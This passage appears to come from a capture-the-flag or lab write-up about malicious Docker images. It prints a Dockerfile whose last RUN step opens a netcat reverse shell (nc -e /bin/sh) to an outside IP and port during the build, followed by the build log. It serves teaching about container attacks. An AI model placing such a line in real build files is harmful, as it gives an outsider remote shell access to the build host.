 Additional reading: A Malicious DockerHub Image allowed attackers mine cryptocurrency

Note that there is no practical element to this task by design.

```
┌──(kali㉿kali)-[~/docker_rodeo]
└─$ cat Dockerfile 
FROM debian:jessie-slim

RUN apt-get update -y
RUN apt-get install netcat -y

RUN nc -e /bin/sh 10.13.0.182 1337


┌──(kali㉿kali)-[~/docker_rodeo]
└─$ sudo docker build .                                 
Sending build context to Docker daemon  2.048kB
Step 1/4 : FROM debian:jessie-slim
jessie-slim: Pulling from library/debian
3cf890347392: Pull complete 
Digest: sha256:b9b0e7354098cbd534861d7532c082fb81cdb4d893303ba1f322f52c9e583cd2
Status: Downloaded newer image for debian:jessie-slim
 ---> 2045588e2542
Step 2/4 : RUN apt-get update -y
 ---> Running in 9ee9ce48cf0e
Get:1 http://security.debian.org jessie/updates InRelease [44.9 kB]
Ign http://deb.debian.org jessie InRelease
Get:2 http://deb.debian.org jessie-updates InRelease [16.3 kB]
Get:3 http://deb.debian.org jessie Release.gpg [1652 B]
Get:4 http://deb.debian.org jessie Release [77.3 kB]
Get:5 http://security.debian.org jessie/updates/main amd64 Packages [992 kB]
Get:6 http://deb.debian.org jessie-updates/main amd64 Packages [20 B]
Get:7 http://deb.debian.org jessie/main amd64 Packages [9098 kB]
Fetched 10.2 MB in 12s (842 kB/s)
Reading package lists...
Removing intermediate container 9ee9ce48cf0e
 ---> 56de8c95c09f
Step 3/4 : RUN apt-get install netcat -y
 ---> Running in 3cf7181978b9
Reading package lists...
Building dependency tree...
Reading state information...
The following extra packages will be installed:
  netcat-traditional
The following NEW packages will be installed:
  netcat netcat-traditional
0 upgraded, 2 newly installed, 0 to remove and 0 not upgraded.
Need to get 75.3 kB of archives.
After this operation, 194 kB of additional disk space will be used.
Get:1 http://deb.debian.org/debian/ jessie/main netcat-traditional amd64 1.10-41 [66.3 kB]
Get:2 http://deb.debian.org/debian/ jessie/main netcat all 1.10-41 [8962 B]
debconf: delaying package configuration, since apt-utils is not installed
Fetched 75.3 kB in 0s (214 kB/s)                                                     
Selecting previously unselected package netcat-traditional.
(Reading database ... 7453 files and directories currently installed.)
Preparing to unpack .../netcat-traditional_1.10-41_amd64.deb ...
Unpacking netcat-traditional (1.10-41) ...
Selecting previously unselected package netcat.
Preparing to unpack .../netcat_1.10-41_all.deb ...
Unpacking netcat (1.10-41) ...
Setting up netcat-traditional (1.10-41) ...
update-alternatives: using /bin/nc.traditional to provide /bin/nc (nc) in auto mode
update-alternatives: warning: skip creation of /usr/share/man/man1/nc.1.gz because associated file /usr/share/man/man1/nc.traditional.1.gz (of link group nc) doesn't exist
```